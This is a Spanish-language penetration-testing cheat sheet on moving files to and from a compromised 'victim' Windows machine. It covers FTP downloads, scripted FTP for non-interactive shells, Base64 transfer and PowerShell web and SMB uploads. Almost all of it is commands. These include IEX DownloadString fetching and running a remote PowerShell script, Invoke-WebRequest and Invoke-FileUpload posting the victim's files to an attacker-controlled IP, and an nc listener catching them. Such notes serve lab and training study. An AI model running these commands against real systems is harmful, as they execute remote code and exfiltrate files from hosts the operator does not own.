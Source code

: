### FTP Downloads

```
#Crear servidor FTP
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21

#PowerShell Victima Windos
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt','C:\Users\Public\ftp-file.txt')

#Aveces es posible encontrarnos una Shell no interactiva, para ejecutar comandos en estos casos se hace lo siguiente
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt  #-v Verbose, -n Evita conexion automatica con servidor -s:ftpcommand.txt Ejecuta los comandos almacenados
```

### Carga de Archivos (Upload)
**PowerShell Base64 Encode & Decode**
```
#Windows (encode y hash):
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5

#Linux (decode y verificación):
echo <cadena_base64> | base64 -d > hosts
md5sum hosts
```
**PowerShell Web Uploads**
```
#Crear servidor de carga de archivos en "http://<ip>:8000/upload"
pip3 install uploadserver
python3 -m uploadserver

#Windows (PowerShell, subir archivo):
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

#PowerShell Web Uploads en Base 64
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64

#Captura con linux
nc -lvnp 8000
echo <base64> | base64 -d -w 0 > hosts
```
**SMB Upload a Windows**
```
#Iniciar servidor SMB en linux
impacket-smbserver sharefolder /tmp -smb2support
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.128\sharefolder\
```
